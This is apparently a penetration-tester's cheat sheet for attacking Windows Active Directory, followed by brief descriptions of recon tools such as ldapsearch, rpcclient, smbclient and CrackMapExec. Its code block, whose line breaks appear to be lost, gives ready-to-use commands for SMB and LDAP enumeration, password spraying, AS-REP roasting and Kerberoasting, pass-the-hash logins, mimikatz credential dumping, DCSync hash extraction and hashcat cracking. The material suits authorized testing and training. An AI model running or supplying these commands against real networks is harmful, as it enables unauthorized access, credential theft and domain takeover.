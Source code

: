 ```
nmap -sS -A -T4 -p- -Pn -oA full [IP]nmap -sS -sV -sC -p- -Pn -oA full [IP]rustscan -b 5000 -t 2000 --ulimit 5000 [IP] #optionally: -- [nmap flags]cme smb [IP] -u '' -p '' --shares --pass-polcme smb [IP] -u '' -p '' -X 'whoami'cme winrm [IP] -u '' -p ''smbclient -L \\\\[IP]\\smbclient \\\\[IP]\\[Share name]rpcclient -U '' [IP] #optionally: -N (do not ask for a password)ldapsearch -x -h [IP] -s base namingcontextsldapsearch -x -h [IP] -s sub -b 'DC=,DC=' > outputfile.txt#Creating a list of valid usernames retrieved from RPC:cat users.txt | awk -F\[ '{print $2}' | awk -F \] '{print $1}' > valid_users.txt#Password spraying:./kerbrute passwordspray -d [DN] --dc [DN/IP] users.txt passwordcme smb [IP] -u users.txt -p passwords.txt #optionally: --shares --pass-pol#AS-REP roast:GetNPUsers.py -dc-ip [DC IP] [DN]/[username] -no-pass hashcat.exe -m 18200 hash.txt rockyou.txt -O#Kerberoasting:GetUserSPNs.py [DN]/[username]:[password] -requestrubeus.exe kerberoast /creduser:[DN]\[username] /credpassword:[user's password] /outfile:[outfile] /format:[hashcat/john]hashcat.exe -m 13100 hash.txt rockyou.txt -O#Accessing the box:./evil-winrm.rb -i [DN/IP] -u [username] -p '[password]'./evil-winrm.rb -i [DN/IP] -u [username] -H [HASH]psexec.py -hashes [hash] [DN]/[username]@[IP]smbexec.py -hashes [hash] [DN]/[username]@[IP]wmiexec.py -hashes [hash] [DN]/[username]@[IP]psexec.py [DN]/[username]:[password]@[IP]smbexec.py [DN]/[username]:[password]@[IP]wmiexec.py [DN]/[username]:[password]@[IP]xfreerdp /u:[username] /p:[password] /v:[IP]xfreerdp /u:[username] /pth:[NT hash] /v:[IP]pth-winexe -U [DN]/[username]%[hash] //[IP] cmd#Authentication through a SSL connection:./evil-winrm.rb -S -i [DN/IP] -u [username] -p '[password]' -c [certificate file] -k [private key]#Dumping password hashes/credentials:mimikatz.exe
privilege::debug
token::elevate
lsadump::sam #or lsadump::lsa
sekurlsa::logonPasswords #to obtain credentials of currently logged users#DCSync:secretsdump.py [DN]/[username]:[password]@[DN] -dc-ip [IP] #Cracking NTLM and NTLMv2 hashes with Hashcat:#NTLM:hashcat.exe -m 1000 hash.txt wordlist.txt#NTLMv2:hashcat.exe -m 5600 hash.txt wordlist.txt
```



Useful recon tools and their description:

LDAPsearch — is a command line utility and a shell-accessible interface, which bases on ldap_search_ext(3) library call. The tool maintains a connection to the server using Lightweight Directory Access Protocol and — using specified parameters — performs querying LDAP service on our behalf¹.

RPCclient — is an utility which was created to test Microsoft Remote Procedure Call functionality in SMB/Samba. Is can be used to perform execution of client-side MS-RPC functions².

SMBclient — is an utility which can be used to access SMB/CIFS shares. It is able to communicate with SMB/CIFS servers and interact with their shares.

SMBmap — another tool which allows to access SMB shares. It allows to enumerate share drives, drive permissions and share contents. SMBmap provides also upload/download functionality.

CrackMapExec — is a tool which abuses built-in features of Active Directory. Allows us to assess the security of a Domain using its various features.

